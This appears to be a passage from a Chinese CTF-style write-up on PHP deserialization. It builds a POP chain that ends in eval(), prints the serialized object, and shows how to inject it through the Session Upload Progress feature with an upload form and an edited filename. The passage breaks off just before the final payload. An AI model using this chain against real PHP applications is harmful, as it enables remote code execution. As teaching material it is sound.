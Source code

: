 ```
POP链为：fo1::__destruct()->foo2::__toString()->foo3::execute()
```

```php
<?php
class foo3{
        public $varr='echo "spoock";';
        function execute(){
                eval($this->varr);
        }
}
class foo2{
        public $varr;
        public $obj;
        function __construct(){
                $this->varr = '1234567890';
                $this->obj = new foo3();
        }
        function __toString(){
                $this->obj->execute();
                return $this->varr;
        }
}

class foo1{
        public $varr;
        function __construct(){
                $this->varr = new foo2();
        }
}

$obj = new foo1();
print_r(serialize($obj));
?>
```

```php
O:4:"foo1":1:{s:4:"varr";O:4:"foo2":2:{s:4:"varr";s:10:"1234567890";s:3:"obj";O:4:"foo3":1:{s:4:"varr";s:14:"echo "spoock";";}}}
```

写入方式主要是利用PHP中`Session Upload Progress`来进行设置，提交一个名为`PHP_SESSION_UPLOAD_PROGRESS`的变量，就可以将`filename`的值赋到`session`中

```html
<form action="index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="m0c1nu7" />
    <input type="file" name="file" />
    <input type="submit" />
</form>
```

抓包修改`filename`即可，注意在开头添加符号`|`以及双引号转义，最终payload:
